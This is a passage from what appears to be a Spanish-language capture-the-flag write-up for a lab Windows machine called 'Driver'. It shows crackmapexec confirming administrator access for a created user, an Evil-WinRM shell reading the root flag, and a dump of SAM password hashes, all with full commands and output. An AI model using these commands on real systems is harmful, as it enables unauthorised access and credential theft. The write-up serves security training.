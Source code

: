 ```bash

Local Group Memberships      *Administrators
Global Group memberships     *None
The command completed successfully.
```

- Ahora comprobamos con `crackmapexec`.

```bash
➜  content crackmapexec smb 10.129.250.229 -u miguelito -p miguel123
SMB         10.129.250.229  445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.129.250.229  445    DRIVER           [+] DRIVER\miguelito:miguel123 (Pwn3d!)
```

## Shell as Administrator and root flag

- Ahora ya simplemente nos conectamos y podemos leer la flag.

```bash
➜  content evil-winrm -i 10.129.250.229 -u miguelito -p miguel123

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\miguelito\Documents> type C:\Users\Administrator\Desktop\root.txt
fce5289973391fd96a5db6dc2301f1cd
```

- En caso de que queramos conectarnos como el usuario **Administrator** simplemente podemos `dumpear` la `sam` y ver los hashes.

```bash
➜  content crackmapexec smb 10.129.250.229 -u miguelito -p miguel123 --sam
SMB         10.129.250.229  445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.129.250.229  445    DRIVER           [+] DRIVER\miguelito:miguel123 (Pwn3d!)
SMB         10.129.250.229  445    DRIVER           [+] Dumping SAM hashes
SMB         10.129.250.229  445    DRIVER           Administrator:500:aad3b435b51404eeaad3b435b51404ee:d1256cff8b5b5fdb8c327d3b6c3f5017:::
SMB         10.129.250.229  445    DRIVER           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.250.229  445    DRIVER           DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.250.229  445    DRIVER           tony:1003:aad3b435b51404eeaad3b435b51404ee:dfdb5b520de42ca5d1b84ce61553d085:::
SMB         10.129.250.229  445    DRIVER           miguelito:1004:aad3b435b51404eeaad3b435b51404ee:0ddc9e8df3c8843f75a918df65dda6ee:::
SMB         10.129.250.229  445    DRIVER           [+] Added 5 SAM hashes to the database
```
